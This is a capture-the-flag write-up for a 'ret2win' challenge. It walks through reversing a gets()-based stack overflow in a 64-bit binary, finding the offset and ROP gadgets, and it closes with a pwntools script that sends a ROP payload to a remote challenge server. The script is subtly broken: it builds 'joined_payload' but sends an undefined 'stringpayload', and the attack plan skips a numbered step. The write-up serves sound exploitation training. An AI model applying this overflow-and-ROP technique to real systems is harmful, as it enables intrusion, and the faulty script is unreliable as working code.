----------------------------------------
# 0〤丩ᐯ㇌尺𝓝丩㇄|$

------------------------------------------------------------------------------


# Challenge Description:
------------------------------------------------------------------------------
Are you looking for an exploit dev job. Well apply to the Republic of Potatoes. We are looking for the best hackers out there. Download the binary, find the secret door and remember to pass the right password.

# Overview:
------------------------------------------------------------------------------
## File checks:

Running basic file checks on the binary:



We can see that the file is a ==non-stripped== 64-bit executable, with minimal protections, meaning it's a no-holds-barred challenge.

## Testing binary:



When running the binary we can see that it asks us for input, and tells us to get to the secret function so it's a basic ret2win challenge.

## Reversing the binary:

------------------------------------------------------------------------------
### main()
when opening the binary up when ghidra, we can start by looking at the main function, here is the decompiled version of it:




We can see that the application is very basic, it puts text on the screen and runs the user_input function, which the decompilation of is as follows:
### user_input()



Now it's obvious what we're going to do, the application sets a buffer of 32 bytes, and uses the ==gets== function, which is a very dangerous function, because gets doesn't know how big the buffer is, so it continues reading until it finds a newline or encounters EOF, and may overflow the bounds of the buffer it was given.


### Win()
and finally, the win function (or supersecrettoplevelfunction) as they're calling it:



The function checks for some parameters, which we can check the value of by right clicking on them, here is the value of the parameters:






we can make out the parameters to be __cafebabe & c0debabe__

and finally we can construct our plan of attack.


# Plan of attack:
------------------------------------------------------------------------------

1. We will have to find the offset of the RIP
3. After that we have to pop some values off the stack to pass our parameters as per the [x64 calling conventions](https://learn.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170)
4. We will then pass our parameters
5. Pass in our win_function address
6. And finally, we will wait for the magic to happen!


# Exploitation:
------------------------------------------------------------------------------

## Debugging with GDB-GEF:

First we generate a cyclic pattern using `pattern create <length>` inside of GEF, copying the value, pressing `r` and pasting it when the application prompts us.




Looking at the result, we can see that the RIP didn't get overwritten as it would've if we were in a 32-bit application, and the application hit a Segmentation Fault when trying to return, we can also take note of where our cyclic pattern is, and currently it's in the $rsp register, meaning we have control over that. As to why our pattern didn't overwrite the RIP? I'll let you do this research on your own, but all the explanation can be found [here](https://coldfusionx.github.io/posts/ret2basic/)

So, after that we can find the offset by running `pattern search $rsp`, and getting the little-endian value of that. 




Read more about Endiannes [here](https://en.wikipedia.org/wiki/Endianness)

Alright, everything should be set from now, we send a payload that consists of the following:

our padding+a valid memory address of a jmp rsp instruction+pop rdi+param1+pop rsi+param2

So let's start:

## Finding ROP gadgets:

To find the valid instructions we need, we'll need to use ropper or ROPGadget from pwntools, but I prefer ropper.

First, we'll need a pop rdi instruction and we can find it using the following command:



And then a pop rsi:



But wait... there's no pop rsi, only pop rsi; pop r15?

That's no problem at all, we'll just have to modify our payload to be the `pop rsi; pop r15; ret` address, and pass in two parameters instead of one, the first parameter will be put into rsi and the second -which can be any junk- will be put into the r15 register.

## Finding the win function address:

And finally, using `readelf`, we can find the address of the win function which we will pass.




And now that we have everything we need, the final form of the payload will be: 
Padding + pop rdi+param1+pop rsi;r15+param2+junk_param+win_address


# The script:
------------------------------------------------------------------------------

```python


from pwn import *
elf=ELF('./ret2win')
session= remote('ret2win.challenges.ctf.ritsec.club', 1337)
win_function=p64(elf.symbols['supersecrettoplevelfunction'])
pop_rdi=p64(0x00000000004012b3)
param1=p64(0xcafebabe)
pop_rsi=p64(0x00000000004012b1)
param2=p64(0xc0debabe)
junk=p64(0x00)

padding=b'A'*40

joined_payload=padding+pop_rdi+param1+pop_rsi+param2+junk+win_function

print(stringpayload)
with open('payload','wb') as test:  # FOR DEBUGGING PURPOSES ONLY
	test.write(stringpayload)
#p = elf.process()                  # FOR DEBUGGING PURPOSES ONLY
# gdb.attach(p,"""
# 	b main
# 	r < payload
# 	c""")
session.sendline(stringpayload)
session.interactive()


```

------------------------------------------------------------------------------